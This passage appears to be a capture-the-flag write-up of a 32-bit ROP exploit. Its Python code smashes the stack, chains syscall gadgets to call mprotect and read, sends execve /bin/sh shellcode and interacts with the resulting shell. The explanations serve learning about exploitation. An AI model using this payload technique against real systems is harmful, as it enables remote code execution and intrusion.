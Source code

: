 ```python

payload += p(SYSCALL)
payload += p(ADDESP)    # fix stack
payload += p(0)         # stdin
payload += p(0x8048000) # address of buffer
payload += p(0x200)     # number of bytes to read
payload += "BBBB"       # dummy value

payload += p(0x8048000) # return to shellcode!

# payload length must be 125, because after read, the next
# syscall is mprotect; eax = 125
payload += "A"*(125-len(payload))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#s.connect(("localhost",28099))
s.connect(("pwnable.katsudon.org",28099))

s.send(payload)

# http://www.shell-storm.org/shellcode/files/shellcode-851.php
s.send("\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68")

# the shell should have been spawned, so interact with it
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

This first bit of python sets up the exploit. I have a helper function called `p(x)` that can dump addresses in the correct endianness into the payload. First, the payload consists of 16 bytes to smash the stack. Then, the ROP chain starts. Finally, I made sure that the first payload is 125 bytes, so that `eax` will contain the correct syscall number for mprotect. This first important part of the ROP chain looks like this:

```python
payload += p(SYSCALL)   # I rely on the return value of the read syscall
payload += p(ADDESP)    # fix stack with add esp, 10; ret
payload += p(0x8048000) # address to modify
payload += p(0x1000)    # length (page-aligned!)
payload += p(0x7)       # PROT_READ|PROT_WRITE|PROT_EXEC
payload += "AAAA"       # dummy value
```

This will call `syscall(0x8048000, 0x1000, 0x7)` with `eax` set to 125. This makes the memory area at 0x8048000 writeable! Next, I need to read in the shellcode, but for that `eax` must be 3. I first reset `ebx`:

```python
# reset ebx so we can set eax using the next gadget
payload += p(SYSCALL)
payload += p(ADDESP)
payload += p(0)         # set ebx = 0
payload += p(0x1000)    # don't care
payload += p(0x7)       # don't care
payload += "AAAA"       # dummy
```

